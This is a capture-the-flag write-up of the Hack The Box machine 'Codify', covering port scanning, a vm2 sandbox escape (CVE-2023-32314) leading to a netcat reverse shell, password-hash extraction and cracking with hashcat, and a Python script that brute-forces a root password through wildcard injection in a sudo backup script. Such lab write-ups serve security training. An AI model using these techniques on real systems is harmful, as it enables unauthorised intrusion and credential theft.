 # HTB - Codify

### TL;DR
This is an Ubuntu 22.04 machine running a web application created with vulnerable version of vm2 library. Exploiting the vulnerability, we get inital foothold, and pivot to ssh user is gained through password hunting in the file system. Escalation is achieved exploiting vulnerability in local backup shell script, for this purpose we generate our own custom exploit.

**Keywords:**<br>
node.js, vm2, python exploit scripting

**References:**<br>
https://www.cvedetails.com/cve/CVE-2023-32314<br>
https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac<br>
https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target -p- -T4 -Pn --open --reason
nmap $target -p- -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-05 06:35 EST
Nmap scan report for 10.129.156.20
Host is up, received user-set (0.065s latency).
Not shown: 64814 closed tcp ports (conn-refused), 718 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack

Nmap done: 1 IP address (1 host up) scanned in 30.45 seconds
```
There are 2 web servers running. If you browse with firefox, you see they are made with vm2 library.

![codify2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/67d649f9-bbb7-4e24-80a6-430cbdecafa8)

For reverse shell, we'll focus on exploiting vm2 vulnerabilities.
### PHASE 2: User
Searching for vm2 vulnerabilities, we came across this cve-2023-32314 (https://www.cvedetails.com/cve/CVE-2023-32314). A poc can be found in github: https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac. Running it in the application we have immediate code execution.

![codify1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3106cd02-8828-48bb-9a51-9f36691a0b4d)

Which can be used to send a `mkfifo nc` reverse shell.

![codify3jpg](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b968c1f1-5f35-4ea5-8027-e55803658b2d)

Once inside the machine, first step is to inspect the `/etc/passwd` file, which reveals our first step would be to pivot to user joshua.
```markdown
> cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```
Searching for interesting files in the file system, we came across this one `/var/www/contact/tickets.db`, which turns out to contain joshua's password hash.
```markdown
> cat /var/www/contact/tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��     tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```
This is a blowfish hash which can be cracked with `hashcat`.
```markdown
hashcat -m 3200 -a 0 -d 1 hash.txt .\rockyou.txt -r .\rockyou-30000.rule
```
ssh in as user joshua using found credentials and collect the flag.
### PHASE 3. System
Let's see if joshua is a sudoer.
```markdown
sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
It seems he can sudo run a backup script located at `/opt/scripts/mysql-backup.sh`. Inspect the code of the script which reveals to be vulnerable to wildcard injection.

![codify4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/5d9dc9ca-0f30-47fa-bcca-f403f554bed5)

Using double brackets in the `if` comparison allows us to use wildcards to guess the password, using a process similar to blind sql injections.
To find out more about the difference between single brackets and double brackets read this: https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching
In summary, both conditions `[[$DB_PASS == Password123!]]` and `[[$DB_PASS == P* ]]` will be evaluated as true in the if statement.
To brute force the password you can use 3 methods:
1. Manually. Letter by letter, not recommended.
2. Semi-manually. Create a file called `letter` containing all lower-case, upper-case and digits and bruteforce them using a loop. Add letters sequentially as you discover in each iteration. The first loop iteration would look like this:
```markdown
> for i in $(cat letters);do echo a* | sudo /opt/scripts/mysql-backup.sh && echo "$i";done
```
As soon as you find a new character, add it to the for loop (e.g. `...echo abcde*...`) and repeat until no more letters are discovered.<br>
3. Using a python script. Elegant and fast. The machine also has perl installed. A proposed python script would be the following:
```python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

print("[+] initializing bruteforce script...")
print("[+] bruteforce in progress, please wait...")
while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] process terminated, root password is: "+password)
```
Running it, the root mysql password is revealed in less than a minute, which turns out to be a reuse of the system's root password.

![codify5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/651f989c-f9e3-4ae8-83a3-a5f97dc017b1)

